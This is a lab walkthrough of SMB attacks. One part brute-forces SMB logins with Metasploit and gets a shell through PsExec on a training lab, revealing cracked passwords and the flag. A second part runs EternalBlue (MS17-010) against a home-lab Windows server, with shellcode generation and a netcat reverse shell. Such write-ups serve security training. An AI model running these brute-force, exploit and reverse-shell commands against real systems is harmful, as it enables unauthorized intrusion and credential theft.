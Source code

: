 # 🔬SMB - PsExec

## Lab 1

> 🔬 [Windows: SMB Server PSexec](https://attackdefense.com/challengedetailsnoauth?cid=1959)
>
> - Target IP: `10.4.16.36`
> - **SMB** exploitation
> - Dictionaries to use:
>   - `/usr/share/metasploit-framework/data/wordlists/common_users.txt`
>   - `/usr/share/metasploit-framework/data/wordlists/unix_passwords.txt`
>   

### Enumeration

```bash
ping 10.4.16.36

nmap -sV -sC 10.4.16.36
```

```bash
PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=EC2AMAZ-408S766
| Not valid before: 2023-03-11T17:43:37
|_Not valid after:  2023-09-10T17:43:37
|_ssl-date: 2023-03-12T17:47:48+00:00; 0s from scanner time.
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2023-03-12 23:17:49
|_  start_date: 2023-03-12 23:13:37
```

![](.gitbook/assets/image-20230312184902175.png)

> 📌 SMB version 2.02

### SMB Brute-force

- Use Metasploit [smb_login](https://www.rapid7.com/db/modules/auxiliary/scanner/smb/smb_login) module to brute force SMB
  - The brute force success is based on the users and password used.


```bash
msfconsole
```

```bash
search smb_login
use auxiliary/scanner/smb/smb_login
set RHOSTS 10.4.16.36
set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
set VERBOSE false
exploit
```

![Metasploit smb_login](.gitbook/assets/image-20230312190418458.png)

```bash
[+] 10.4.16.36:445 - 10.4.16.36:445 - Success: '.\sysadmin:samantha'
[+] 10.4.16.36:445 - 10.4.16.36:445 - Success: '.\demo:victoria'
[+] 10.4.16.36:445 - 10.4.16.36:445 - Success: '.\auditor:elizabeth'
[+] 10.4.16.36:445 - 10.4.16.36:445 - Success: '.\administrator:qwertyuiop' Administrator
```

### SMB Exploitation

- Use [PsExec.py](https://github.com/fortra/impacket/blob/master/examples/psexec.py) script for Linux (from the [impacket-scripts](https://www.kali.org/tools/impacket-scripts/))  to get a command prompt on the target machine, with the Administrator account.
  - Using this technique, **no exploit is launched or uploaded on the target system**.
  - It is a legitimate authentication with the actual credentials and the use of an official tool (`psexec`).

```bash
psexec.py Administrator@10.4.16.36 cmd.exe
```

 ![psexec.py](.gitbook/assets/image-20230312191210984.png)

- Alternatively to the Python script, use Metasploit [psexec](https://www.rapid7.com/db/modules/exploit/windows/smb/psexec/) module to get a `meterpreter` session on the target system.
  - This technique will **upload and run a (malicious) payload** on the target. Pay attention to the antivirus!

```bash
msfconsole
search psexec
use exploit/windows/smb/psexec
set RHOSTS 10.4.16.36
set SMBUser Administrator
set SMBPass qwertyuiop
# Make sure the LHOST = your host IP address
exploit
```

![Metasploit psexec](.gitbook/assets/image-20230315154321522.png)

- Find the flag, running `meterpreter` commands

```bash
shell
# will provide a cmd shell on the target machine
cd \
dir
type flag.txt
```

<details>
<summary>Reveal Flag: 🚩</summary>



`e0da81a9cd42b261bc9b90d15f780433`

![image-20230312191432614](.gitbook/assets/image-20230312191432614.png)

</details>

------

## Lab 2 - Eternal Blue (Extra)

> 🔬 **Home Lab**
>
> I have prepared a vulnerable *Windows 2008 R2 Virtual Machine* and connected it to the same network of the Kali virtual machine. On the server, I have activated `File Services` role and created a shared folder with the Administrators Group.
>
> - Host system: `Kali Linux`
> - Target system: `Windown Server 2008 R2` - IP `192.168.31.131` - `Administrator`:`Eternal17010`
> - Exploitation tool: [AutoBlue-MS17-010](https://github.com/3ndG4me/AutoBlue-MS17-010)
> - Vulnerability: [CVE-2017-0143 - EternalBlue](https://nvd.nist.gov/vuln/detail/CVE-2017-0143) + [CVE-2017-0144](https://nvd.nist.gov/vuln/detail/CVE-2017-0144)

### Enumeration

```bash
nmap -sV -sC 192.168.31.131
```

![nmap -sV -sC 192.168.31.131](.gitbook/assets/image-20230314175805319.png)

```bash
sudo nmap --script smb-vuln-ms17-010 -p445  192.168.31.131
```

![sudo nmap --script smb-vuln-ms17-010 -p445  192.168.31.131](.gitbook/assets/image-20230314181920417.png)

> - 📌 The system is vulnerable to the `CVE-2017-0143`

### Manual Exploitation

- [AutoBlue-MS17-010](https://github.com/3ndG4me/AutoBlue-MS17-010) will be used for the manual exploitation

```bash
cd
mkdir tools
cd /home/kali/tools
sudo git clone https://github.com/3ndG4me/AutoBlue-MS17-010.git 
cd AutoBlue-MS17-010
pip install -r requirements.txt
```

- Generate a shellcode that will be exploited on the target system.

```bash
cd shellcode
chmod +x shell_prep.sh
./shell_prep.sh
# LHOST = Host Kali Linux IP
# LPORT = Port Kali will listen for the reverse shell
```

![./shell_prep.sh](.gitbook/assets/image-20230314183458007.png)

- Set a **`netcat`** listener on the specified port, in another terminal tab

```bash
nc -nvlp 1234
```

- In the `AutoBlue` terminal tab, use the `eternalblue_exploit7.py` to exploit the target from the AutoBlue-MS17-010 directory

```bash
cd ..
chmod +x eternalblue_exploit7.py
python eternalblue_exploit7.py 192.168.31.131 shellcode/sc_x64.bin
```

- Check the `netcat` tab for the reverse shell

![Reverse Shell Success](.gitbook/assets/image-20230314184120008.png)

### Automatic Exploitation

```bash
msfconsole
```

```bash
search eternalblue
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 192.168.31.131
exploit
```

![Metasploit ms17_010_eternalblue](.gitbook/assets/image-20230314184602900.png)

------

